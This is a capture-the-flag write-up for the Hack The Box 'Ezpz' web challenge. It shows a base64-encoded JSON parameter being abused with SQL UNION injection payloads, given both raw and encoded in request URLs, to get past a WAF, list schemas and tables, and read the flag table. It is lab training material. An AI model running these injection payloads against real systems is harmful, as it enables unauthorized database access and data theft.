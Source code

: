 ```yaml
---
date: 2019-05-12T19:17:18.000Z
layout: post
title: Ezpz Web Challenge Write Up From Hack The Box
subtitle: Its an easy web challenge, and we will butch it
description: >-
  Lorem ipsum dolor sit amet, consectetur adipisicing elit, sed do eiusmod
  tempor incididunt ut labore et dolore magna aliqua.
image: >-
  https://i.imgur.com/XnJ1KF4.png
optimized_image: >-
  https://i.imgur.com/XnJ1KF4.png
category: web 
tags:
  - web
  - sqli
  - php
author: Dr.D3xt3r
paginate: true
---
```

## first Part 

i open the challenge its an error lets see what we will do .

![placeholder](https://i.imgur.com/qxWpyff.png)

lets put any value in obj : `<http://docker.hackthebox.eu:30268/?obj=1>`

![placeholder](https://i.imgur.com/HA1dt1Z.png)

nice its work .. lets determine 'id' property : `<http://docker.hackthebox.eu:30268/?obj[id]=1>`

![placeholder](https://i.imgur.com/ErPIhyx.png)

okaaai .. its take any input and decode it to base64 , so lets encode this `<{"ID": "1"}>`
`<http://docker.hackthebox.eu:30268/?obj=eyAiSUQiOiAiMSJ9>`

![placeholder](https://i.imgur.com/MkEjV2Z.png)

niiice its first part of challenge and its easy . lets see what we will do next 

## Second Part : SQLI

its being filterd by `<WAF>` so lets bypass it 

![placeholder](https://i.imgur.com/UAB6mFx.png)

I tried this payload `<{"ID": "a' UNION SELECT * FROM (SELECT 1)a JOIN (SELECT schema_name FROM information_schema.schemata)b -- a"}>` 

and encode it 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCBzY2hlbWFfbmFtZSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5zY2hlbWF0YSliIC0tIGEifQ==>`

![placeholder](https://i.imgur.com/5EswifW.png)

niice its working its display > "information schema tables"

lets dipaly names of the tables : 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJyBVTklPTiBTRUxFQ1QgKiBGUk9NIChTRUxFQ1QgMSlhIEpPSU4gKFNFTEVDVCB0YWJsZV9uYW1lIEZST00gbXlzcWwuaW5ub2RiX3RhYmxlX3N0YXRzKWIgLS0gYSJ9>`

![placeholder](https://i.imgur.com/PlHywd8.png)

here we go we get the flag table 

`<http://docker.hackthebox.eu:30268/?obj=eyJJRCI6ICJhJ1VOSU9OIFNFTEVDVCAqIEZST00gKFNFTEVDVCAxKWEgSk9JTiAoc2VsZWN0ICogZnJvbSBGbGFnVGFibGVVbmd1ZXNzYWJsZUV6UFopYiAtLSBhIn0>`

![placeholder](https://i.imgur.com/CUkmWhm.png)

GG bro its so easy .. hope its clear to u thanks for reading <3
